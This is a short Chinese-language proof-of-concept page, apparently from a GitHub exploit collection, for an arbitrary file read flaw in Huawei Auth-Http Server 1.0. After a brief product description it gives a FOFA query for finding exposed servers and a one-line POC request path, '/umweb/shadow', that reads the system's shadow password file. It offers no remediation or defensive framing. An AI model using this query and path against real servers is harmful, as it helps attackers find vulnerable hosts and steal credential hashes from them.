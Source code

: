# 华为Auth-Http Serve任意文件读取


## 华为Auth-Http Serve任意文件读取
华为Auth-Http服务,华为Auth-Http Server是一款安全认证服务器，在提供安全的远程登录和网络资源访问控制。支持多种认证方式和协议AAA、Radius、TACACS+等，可以实现用户身份认证、授权和审计等功能。同时，可广泛应用于企业、政府、教育等行业的安全架构中。华为Auth-Http Server 1.0任意文件读取，攻击者可通过该漏洞读取任意文件
## fofa
```
server="Huawei Auth-Http Server 1.0"
```

## POC
```
/umweb/shadow
```

![image](https://github.com/wy876/POC/assets/139549762/6e52e737-0076-4630-9d6f-a9f0a355b549)

